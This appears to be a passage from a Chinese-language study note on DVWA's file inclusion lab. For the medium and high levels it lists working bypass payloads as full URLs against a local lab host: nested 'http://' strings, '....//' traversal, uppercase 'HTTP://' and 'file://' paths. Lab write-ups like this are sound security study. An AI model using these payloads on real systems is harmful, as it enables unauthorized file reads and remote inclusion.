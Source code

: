 http://=>hthttp://tp://，中间的http://被删了，但外壳保留下来了，依然能使用

http://192.168.168.216/DVWA/vulnerabilities/fi/?page=hthttp://tp://www.baidu.com

![image-20210114234219803](DVWA学习笔记/image-20210114234219803.png)



同理，本地的有

目标是../../hackable/flags/fi.php，../被过滤

../ => ....//

所以写成....//....//hackable/flags/fi.php

http://192.168.168.216/DVWA/vulnerabilities/fi/?page=....//....//hackable/flags/fi.php

![image-20210114234200645](DVWA学习笔记/image-20210114234200645.png)



除此之外，看博客还有发现可以用大写HTTP绕过

http://192.168.168.216/DVWA/vulnerabilities/fi/?page=HTTP://www.baidu.com

![image-20210115000458704](DVWA学习笔记/image-20210115000458704.png)



## high

看源码

![image-20210114235205036](DVWA学习笔记/image-20210114235205036.png)

满足2个条件之一可以不报错

1. 文件名file开头
2. 文件名是include.php



绕过的话，考虑第一个，file开头，file://C:\software\phpstudy_pro\WWW\DVWA\hackable\flags\fi.php

利用url：

http://192.168.168.216/DVWA/vulnerabilities/fi/?page=file://C:\software\phpstudy_pro\WWW\DVWA\hackable\flags\fi.php

![image-20210115000051378](DVWA学习笔记/image-20210115000051378.png)



看博客发现还有用page=file1.php../../hackable/flags/fi.php的，没看懂这什么写法





## impossible

看源码，枚举了一遍白名单，无解
